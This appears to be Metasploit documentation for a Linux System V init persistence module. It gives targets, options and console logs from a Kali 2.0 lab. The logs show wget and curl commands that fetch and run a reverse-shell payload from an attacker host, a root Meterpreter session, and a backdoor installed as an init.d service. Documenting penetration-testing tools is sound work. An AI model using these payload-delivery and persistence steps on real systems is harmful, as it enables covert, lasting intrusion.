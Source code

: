 ## Vulnerable Application

This module will create a service via System V on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services

Targets:

* CentOS <= 5
* Debian <= 6
* Kali 2.0
* Ubuntu <= 9.04

Note: System V won't restart the service if it dies, only an init change (reboot etc) will restart it.

Verified on [Kali 2.0](https://old.kali.org/kali-images/kali-2.0/kali-linux-2.0-amd64.iso)

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### SERVICE

The name of the service to create.  If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

### EnableService

If the service should be enabled. Defaults to `true`

## Scenarios

### Kali 2.0

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l

[*] Server started.
[*] Run the following command on the target machine:
wget -qO 1KkF4s8n --no-check-certificate http://111.111.1.111:8181/l; chmod +x 1KkF4s8n; ./1KkF4s8n& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:56459) at 2025-02-16 07:51:56 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/root) > getuid
Server username: root
(Meterpreter 1)(/root) > sysinfo
Computer     : kali2.0
OS           : Kali 2.0 (Linux 4.0.0-kali1-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/root) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_sysvinit 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_sysvinit) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_sysvinit) > exploit
[*] Command to run on remote host: curl -so ./BQVXqXpLiG http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./BQVXqXpLiG;./BQVXqXpLiG&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_sysvinit) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is System V based
[*] Writing backdoor to /tmp//MarxU
[*] Utilizing update-rc.d
[*] Writing service: /etc/init.d/JIxbnwyUcQ
[+] Enabling & starting our service
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.38.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:55807) at 2025-02-16 07:56:21 -0500
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/kali2.0_20250216.5622/kali2.0_20250216.5622.rc
```
